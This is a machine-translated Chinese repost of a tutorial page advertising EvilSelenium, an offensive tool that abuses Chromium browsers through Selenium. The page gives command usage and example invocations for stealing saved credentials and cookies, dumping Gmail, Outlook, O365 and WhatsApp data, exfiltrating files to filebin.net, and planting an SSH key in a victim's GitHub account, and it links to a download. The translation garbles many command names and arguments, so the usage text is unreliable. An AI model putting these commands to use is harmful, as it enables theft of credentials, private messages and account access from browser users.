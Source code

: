 # EvilSelenium:一个将 Selenium 武器化以攻击基于 Chromium 的浏览器的工具

> 原文：<https://kalilinuxtutorials.com/evilselenium/>

[![](img/5b136ef014dc31f54fd8568b8e356b15.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgw6QUKnZGAh6pGVriRqEmkHy8izJ_VxQ5jtOl4RiD9a2IOAmZLrY0wzL06TGm9lRukdrStNFFdUFX9nznNxKhGBtrqhgWxM1m6jzpT5URX3olzemPp5F_zmCQkRKR1nMig_BWgfTCQbrajVd2f2IjryRFIRCEG51zcZgbGHh-UIUWdPEpmYZNgPmrA/s728/d301f8da.png)

**EvilSelenium** 是一个新项目，将 Selenium 武器化以滥用基于铬的浏览器。目前的特点是:

*   窃取存储的凭据(通过自动填充)
*   偷饼干
*   抓取网站截图
*   转储 Gmail/O365 电子邮件
*   转储 WhatsApp 消息
*   下载和导出文件
*   向 GitHub 添加 SSH 密钥

或者扩展现有功能以满足您的需求(例如，从用户的 GDrive/OneDrive 下载文件)。

## 使用

**EvilSelenium.exe/？
/help–显示此帮助菜单。
设置:
/安装–安装 chrome driver&Selenium web driver。运行一次。
全局:(接受每个命令)
/browser dir[appdata _ local _ routing]–使用自定义浏览器，输入应该是%appdatalocal% dir 内的路由(例如“Microsoft \ Edge”)
RECON:
/enumsavedsites[out _ path]–通过截图检查哪些网站保存了密码。
/截图【网站】【out _ path】–给定网页截图。
凭证:
/自动运行——从常用网站提取保存的凭证。
/dynamic id[log in _ page][username _ ID][password _ ID]–从网站提取保存的凭据，提供用户名字段 ID &密码字段 ID。
/dynamic name[log in _ page][username _ name][password _ name]–从网站提取保存的凭据，提供用户名字段名称值&密码名称值。
/dynamic name 2[log in _ page][username _ position][password _ position][username _ name][password _ name]–从网站提取保存的凭据，提供用户名字段名称值、密码名称值及其位置。
COOKIES:
/COOKIES[网站]–抓取给定网站的 COOKIES。
模块:
/download[file _ URL][seconds]–下载文件并指定等待下载完成的时间。文件扩展名不应该是可执行的。
/exfil[local _ file][seconds]–在 filebin.net 上上传文件并输出下载链接。
/Gmail[out _ path][num _ of _ emails]–如果用户通过身份验证，则从 mail.google.com 获取电子邮件。最多 50 封电子邮件。
/outlook[out _ path][num _ of _ emails]–如果用户通过身份验证，则从 Outlook 获取电子邮件。
/O365[输出路径][电子邮件数量]–如果用户通过验证，则从 O365 Outlook 获取电子邮件。
/github[key]–如果用户通过验证，将您的 SSH 密钥添加到 Github。
/whatsapp[out _ path]–如果用户通过验证，则获取 Whatsapp 消息(BETA)。**

# 设置

`**/install**`命令将下载 Chrome 驱动和 Selenium WebDriver，这是必要的需求。EvilSelenium 将在 Chrome 版本 100-90 上运行。

**在 Windows 10 上测试，Chrome v97 & v90。**

**EvilSelenium.exe/安装**

# 全局配置

默认情况下，EvilSelenium 将尝试使用 Google Chrome 的用户数据文件夹来检索数据，但也支持其他基于 Chromium 的浏览器。
为了使用不同的基于 Chrome 的浏览器，你应该在`**%localappdata%**`目录中的浏览器路由后添加`**/browserdir**`。以下是一些常见浏览器的示例(应该添加到任何 CLI 命令中):

1.  **勇敢的**–`**/browserdir BraveSoftware\Brave-Browser**`
2.  **微软 Edge**–`**/browserdir Microsoft\Edge**`
3.  **维瓦尔第**–`**/browserdir Vivaldi**`

# 侦察舱

**`/enumsavedsites`**——这个会截图 chrome://设置/密码

`**/screenshot**`–截图任意网站。如果用户通过了网站认证，那么您将获得经过认证的屏幕截图:)。

# 凭证模块

**重要提示:**凭证模块将**删除 cookie**以便从自动填充中窃取凭证。理想情况下，如果要导出 cookies，应该在最后使用凭证模块。

`**/autorun**`–常用网站的预建模板。我会继续补充更多。

**`/dynamicid`**–提供登录 URL 以及用户名输入字段的 ID 和密码字段的 ID。这相当于 document.getElementById()。

`**/dynamicname**`–如果字段没有 id，则提供字段的名称值。它将选择名称值的第一个索引。这相当于 document . getelementsbyname()[0]. value。

**`/dynamicname2`**–提供字段的名称值及其索引位置。这相当于 document . getelementsbyname()[x]。值，其中 x 是提供的位置。

# cookie 模块

`**/cookies**`–从指定网站转储 cookies。

# 其他模块

这些是我构建的附加模块，用来演示使用 Selenium 可以做什么样的操作。

`**/download**`–下载文件&指定等待下载的时间。下载前应该给文件附加一个不可执行的文件扩展名，以避开 Chrome 的安全浏览提示。

`**/exfil**`–在 filebin.net 上上传文件&指定等待上传完成的时间。一旦上传完成，文件的下载链接被写入。

`**/gmail**`–如果用户通过验证，则从 mail.google.com 获取电子邮件。最多 50 封电子邮件。

`**/outlook**`–如果用户通过验证，则从 Outlook 获取电子邮件。

`**/o365**`–如果用户通过验证，从 O365 Outlook 获取电子邮件。

`**/github**`–如果用户通过验证，将您的 SSH 密钥添加到 Github。

`**/whatsapp**`–如果用户通过验证，则获取 Whatsapp 消息(测试版)。

# 命令示例

**EvilSelenium.exe/截图 https://mail.google.com c:\ users \ Mr . d0x \ downloads
EvilSelenium.exe/dynamic id https://www.hybrid-analysis.com/login log in _ email log in _ password
EvilSelenium.exe/dynamic name https://linkedin.com session _ key session _ password**

[**Download**](https://github.com/mrd0x/EvilSelenium)